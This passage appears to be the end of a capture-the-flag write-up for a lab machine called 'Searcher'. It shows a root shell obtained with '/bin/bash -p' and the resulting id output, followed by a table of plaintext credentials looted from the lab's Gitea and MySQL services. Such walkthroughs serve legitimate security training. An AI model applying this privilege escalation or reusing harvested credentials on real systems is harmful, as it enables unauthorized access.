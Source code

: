 we can now have a root shell :

```shell
/bin/bash -p
id
```

Result:

```text
uid=1000(svc) gid=1000(svc) euid=0(root) egid=0(root) groups=0(root)
```

## Loots

### credentials

| Username  | Password  | Hash      | Usage     |
| ---       | ---       | ---       | ---       |
| cody      | jh1usoih2bkjaspwe92 | | gitea.searcher.htb |
| gitea     | yuiu1hoiu4i5ho1uh |   | gitea database user |
|           | jI86kGUuj87guWr3RyF | | Mysql root account |
| administrator | yuiu1hoiu4i5ho1uh |           | gitea |
